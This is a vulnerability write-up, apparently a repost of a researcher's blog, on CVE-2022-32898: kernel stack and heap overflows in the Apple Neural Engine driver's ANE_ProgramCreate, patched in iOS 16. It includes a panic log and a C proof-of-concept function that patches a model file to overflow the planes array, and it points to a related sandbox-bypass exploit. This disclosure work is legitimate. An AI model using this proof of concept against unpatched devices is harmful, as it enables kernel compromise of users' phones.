


# CVE-2022-32898: ANE_ProgramCreate() multiple kernel memory corruption


Nov 23, 2022 • Mohamed GHANNAM (@_simo36)

## 저자 commnet

I'm sharing two other iOS kernel vulnerabilities
reachable from the default app sandbox that don’t require you to open a UserClient: 


## Intro:

While reverse-engineering the process of which the Apple Neural Engine loads a model in the kernel level, I identified two interesting memory corruption vulnerabilities in the code responsible for processing the neural network features in H11ANEIn::ANE_ProgramCreate_gated(). These kind of vulnerabilities, in my opinion, are easy to find when manually auditing the kernel driver, but nearly impossible to catch with fuzzers unless you build something incredibly sophisticated.

## Analysis:

The ZinComputeProgramGetNamesFromMultiPlaneLinear() and ZinComputeProgramGetNamesFromMultiPlaneTiledCompressed() functions are both responsible for parsing the procedure input and output, or more precisely, the LC_THREAD command with thread flavor 2 (ane_bind_state) whose binding_type_info value is 4 and 5.

From what I can tell, binding_type_info = 4 means that a procedure’s input has more than one plane, and binding_type_info = 5 means that the input not only has more than one plane but is also compressed.

The ZinComputeProgramGetNamesFromMultiPlaneLinear() function for example takes 5 arguments: a load command pointer, a thread binding pointer, and three extra output arguments. The last output argument planes is an array that will hold planes, or kernel pointers, whose contents are controlled by the user, and the last argument planeCount will indicate how many planes (or kernel pointers) were copied into planes from the model.hwx file. The following is the function definition:


Due to the lack of validation of how many planes a model can supply, kernel pointers could be written outside the bounds of the planes array, potentially leading to a many interesting memory corruption scenarios.


## Turning the memory corruption to stack overflow:

The planes array is a stack variable located in H11ANEIn::ANE_ProgramCreate_gated(), and by overflowing this variable (which is supposed to hold multiple planes up to 4 elements) with more than 4 planes, other stack variables could be corrupted as well, which could lead to other issues such as type-confusion since the overwriting kernel pointers are completely under user control.

Obviously, overflowing the planes array with too much entries would likely overwrite the stack cookie as well as the saved old stack frame pointer, resulting in a kernel panic. Fortunately, the total number of planes is entirely within the control of the given model, thus we could corrupt several stack variables without affecting those sensitive areas of the stack.

## Turning the memory corruption to heap overflow:

Another interesting scenario, and as illustrated in the image below, it is possible to overflow two heap objects: H11ANEProgramBindingInfo (at line 528) and H11ANEProgramCreateArgsStructOutput (at line 533).



```
struct H11ANEProgramBindingInfo
{
        struct {
                uint32_t field_0;
                char names[8][512];
                uint32_t field_1004;
                char *procedure_name;
        } inputs[255], outputs[255];

};
```


The structure definition of H11ANEProgramCreateArgsStructOutput is shown above, and corrupting it could result in the following crashes:
```
"panicString" : "panic(cpu 4 caller 0xfffffe00112e6184): Kernel data abort. at pc 0xfffffe0010a8a48c, lr 0x03effe0011b1b47c (saved state: 0xfffffe6089dca980)
  x0:  0x1122334411223344 x1:  0xfffffe3000ecff20  x2:  0x0000000000000040  x3:  0x0000000000000000
  x4:  0x0000000000000000 x5:  0x0000000000000000  x6:  0x00000000000000e8  x7:  0x0000000000000830
  x8:  0xfffffe608949c000 x9:  0xfffffe24cec0d1b0  x10: 0xfffffe24cd7d4010  x11: 0xfffffe1667fa93e0
  x12: 0x0000000000000001 x13: 0x0000000000000858  x14: 0xfffffe3000ed0760  x15: 0x00292a20736d6172
  x16: 0x5bd9fe0010a8a470 x17: 0xfffffe0013ad55d8  x18: 0x0000000000000000  x19: 0x0000000000000000
  x20: 0x0000000000000001 x21: 0xfffffe1b33ee3860  x22: 0xfffffe299a621a00  x23: 0xfffffe2999c72208
  x24: 0xfffffe3000ec0000 x25: 0x00000000e00002d1  x26: 0xfffffe608949c000  x27: 0xfffffe60895a2054
  x28: 0xfffffe6089dcb850 fp:  0xfffffe6089dcacd0  lr:  0x03effe0011b1b47c  sp:  0xfffffe6089dcacd0
  pc:  0xfffffe0010a8a48c cpsr: 0x00401208         esr: 0x96000004          far: 0x1122334411223344
 ``` 
## Trigger the vulnerability:

What makes these vulnerabilities interesting is that it doesn’t require you to interact directly with the kernel, in other words, no need to open a UserClient connection, you simply need to compile (or craft) a malicious model and let aned load it on your behalf.

As you may know, to load any model via aned, the model must be compiled by the ANECompilerService system service or signed by Apple. in other words, the app must provide a .mlmodelc directory to aned which will then request ANECompilerService to compile it to model.hwx using two frameworks called Espresso and ANECompiler. If you don’t know what I’m talking about, you’re welcome to take a look at #POC2022 slides  [here](https://github.com/ox1111/weightBufs/blob/main/attacking_ane_poc2022.pdf)
 where I gave a basic overview of how aned works. In addition, you can get more details about the compilation process in [ Wish Wu]([https://www.youtube.com/watch?v=1wvBDUnPNEo](https://twitter.com/wish_wu))’s excellent  [ BlackHat talk](https://www.youtube.com/watch?v=1wvBDUnPNEo)
 regarding his research on ANE as well as  [his great tool](https://github.com/ox1111/weightBufs) that exactly mimics what ANECompilerService does.

In our case here, we need a model.hwx with a procedure whose input (or output) supports multiple planes. Unfortunately, no such model is available in the mlmodel, mlmodelc or mlpackage format, and only few models in hwx format are provided by Apple. Inspecting these hwx models revealed that they are using some weird/undocumented neural network operations that don’t exist in the open source coremltools library code base, hinting that these network layers are likely for internal usage only. However, the implementation of these operations is defined by the Espresso framework, and some reversing is required to understand what inputs and outputs they support and how to properly use them as a layer within a neural network. Since the framework is written in C++ with STL, I had no interest in reversing this operation because it’d take forver.

This was main reason that led me to discover CVE-2022-32845 which not only allowed me to avoid reversing this scary framework, but also saved me hunders of hours of studying advanced Machine Learning topics.

So I took a simple model.hwx and patched one of its LC_THREAD commands to replicate the desired outcome in ane_bind_state, and then exploited CVE-2022-32845 to trick aned into loading it as if it was signed by Apple; and that was enough to demostrate the vulnerability to Apple.

The function which patches the model is shown below, and you can borrow some codes from my [weightBufs kernel exploit ](https://github.com/ox1111/weightBufs) if you want to trigger the vulnerability yourself.

```
void patch_hwx(const mach_header_64 *mh,size_t mh_size)
{
        if((mh->magic != 0xfeedface) && (mh->magic != 0xbeefface)) {
                dbg("[-] Bad Mach-O file \n");
                return ;
        }

        struct load_command *lc = NULL;

        FOR_EACH_COMMAND {

                if (lc->cmd != LC_THREAD)
                        continue;

                dbg("LC_THREAD command found \n");

                compute_thread_command *thread = (compute_thread_command *)lc;
                u32 name_off = 0;
                switch (thread->flavor) {
                case THREAD_BINDING: {
                        name_off = *(uint32_t*)((char*)thread + 0x18);
                        dbg("Binding Name \n");
                        compute_thread_binding * bd =
                                (compute_thread_binding *)&thread->thread_states;

                        bd->binding_typeinfo = 4;
                        bd->field4 = 1;

                        u32 plane_count = 0x30;
                        char *buf_start = (char*)lc + 0x20;
                        *(u32 *) buf_start = 0;
                        *(u32 *) (buf_start + 0x10) = plane_count;
                        char *_ptr = buf_start + 0x6C;
                        int i = 0;
                        uint64_t off = 0;

                        do {
                                if(off == 0)
                                        off = (unsigned int)(_ptr + 4 - (char*)mh) + 8 ;
                                *(unsigned int *)_ptr = mh_size;

                                u64 *pp = (u64 *)&_ptr[4];
                                for(int k = 0; k < 4;k++)
                                        pp[k] = 0x1122334411223344;
                                _ptr += 0x68;

                        }while (i++ < plane_count);

                        patched = true;

                        return;
                }
                case THREAD_PROCEDURE_OPERATION:
                case THREAD_PROCEDURE:
                default:
                        break;
                }

                dbg("\t ProcedureName '%s' \n",(char*)thread + name_off);

        }

}

```


## The patch:
Apple addressed the issue in iOS 16 by introducing some validation checks in both vulnerable functions, limiting the supplied plane count to four entries, as shown below:


That’s all for now, see you again soon!


